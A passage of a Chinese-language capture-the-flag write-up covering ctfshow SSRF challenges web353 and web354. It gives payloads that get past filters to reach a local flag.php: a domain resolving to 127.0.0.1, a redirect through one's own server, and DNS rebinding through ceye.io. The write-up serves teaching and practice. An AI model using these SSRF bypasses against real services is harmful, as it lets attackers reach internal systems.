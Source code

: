 



### web353



<img src="https://s2.loli.net/2022/12/18/zKfySPgin52aGb6.png" alt="image-20221218221359005" style="zoom: 33%;" />

忽略大小写，过滤了句号。 也可以使用上面的payload



### web354

<img src="https://s2.loli.net/2022/12/18/4vA82XsjhitlL9Y.png" alt="image-20221218221819060" style="zoom:33%;" />

又把数字给过滤了，

解法一：

了解到一个神奇的域名 ,会解析为127.0.0.1 :

```php
http://sudo.cc/
```

所以我们可以构造payload：

```php
?url=http://sudo.cc/flag.php
```

或者，修改自己的hosts文件，将 xx.yy  解析为 127.0.0.1即可



解法二：

可以将自己服务器作为中转，重定向到 http://127.0.0.1/flag.php

<img src="https://s2.loli.net/2022/12/18/VajgozT7FlvWsrm.png" alt="image-20221218222153353" style="zoom:33%;" />

我的服务器上的a.php 中写有如上代码，所以payload:

```php
?url=http://your-domain/a.php
```



解法三：DNS-Rebinding

> 自己去ceye.io注册绑定127.0.0.1然后记得前面加r
>
> url=http://r.xxxzc8.ceye.io/flag.php

查看 profile

如果 ceye 域名中有 1，这题就用不了这种方法了



### web355
